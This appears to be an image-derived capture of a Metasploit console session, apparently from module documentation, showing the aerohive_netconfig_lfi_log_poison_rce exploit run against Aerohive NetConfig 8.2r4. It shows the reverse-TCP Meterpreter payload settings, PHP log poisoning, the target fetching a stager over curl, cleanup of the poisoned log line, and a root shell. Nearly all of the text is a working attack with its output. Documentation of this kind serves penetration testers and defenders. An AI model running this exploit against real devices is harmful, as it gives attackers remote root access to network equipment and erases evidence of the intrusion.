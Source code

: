 ```
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /                yes       The base path to Aerohive NetConfig
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.229    yes       The listen address (an interface may be specified)
   LPORT  4001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse TCP handler on 192.168.1.229:4001
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Using URL: http://0.0.0.0:8080/d6UNmlXIko
[*] Local IP: http://192.168.1.229:8080/d6UNmlXIko
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.1.151 (curl/7.50.1) requested /d6UNmlXIko
[*] Sending payload to 192.168.1.151 (curl/7.50.1)
[*] Sending stage (902096 bytes) to 192.168.1.151
[*] Attempting to clean the log file at /tmp/messages...
[!] Please note this will render the target (temporarily) unexploitable. This state can last over an hour.
[+] Successfully cleaned up the log by deleting the line with the PHP syscal from /tmp/messages.
[*] Meterpreter session 24 opened (192.168.1.229:4001 -> 192.168.1.151:52430 ) at 2021-11-02 16:55:12 +0000
[*] Server stopped.

meterpreter > shell
Process 3096 created.
Channel 1 created.
grep 'php system' /tmp/messages
id
uid=0(root) gid=0(root)
```
